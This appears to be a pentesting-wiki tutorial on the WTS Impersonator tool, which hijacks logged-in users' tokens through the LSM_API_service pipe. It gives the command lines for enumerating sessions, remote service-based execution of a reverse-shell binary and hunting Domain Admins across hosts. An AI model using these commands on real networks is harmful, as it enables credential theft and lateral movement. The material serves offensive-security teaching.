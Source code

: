 # WTS Impersonator


The **WTS Impersonator** tool exploits the **"\\pipe\LSM_API_service"** RPC Named pipe to stealthily enumerate logged-in users and hijack their tokens, bypassing traditional Token Impersonation techniques. This approach facilitates seamless lateral movements within networks. The innovation behind this technique is credited to **Omri Baso, whose work is accessible on [[https://github.com/OmriBaso/WTSImpersonator|GitHub]]**.

### Core Functionality

The tool operates through a sequence of API calls:

```bash
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
```
### Key Modules and Usage

- **Enumerating Users**: Local and remote user enumeration is possible with the tool, using commands for either scenario:

  - Locally:
    ```bash
    .\WTSImpersonator.exe -m enum
    ```
  - Remotely, by specifying an IP address or hostname:
    ```bash
    .\WTSImpersonator.exe -m enum -s 192.168.40.131
    ```

- **Executing Commands**: The `exec` and `exec-remote` modules require a **Service** context to function. Local execution simply needs the WTSImpersonator executable and a command:

  - Example for local command execution:
    ```bash
    .\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
    ```
  - PsExec64.exe can be used to gain a service context:
    ```bash
    .\PsExec64.exe -accepteula -s cmd.exe
    ```

- **Remote Command Execution**: Involves creating and installing a service remotely similar to PsExec.exe, allowing execution with appropriate permissions.

  - Example of remote execution:
    ```bash
    .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
    ```

- **User Hunting Module**: Targets specific users across multiple machines, executing code under their credentials. This is especially useful for targeting Domain Admins with local admin rights on several systems.
  - Usage example:
    ```bash
    .\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
    ```



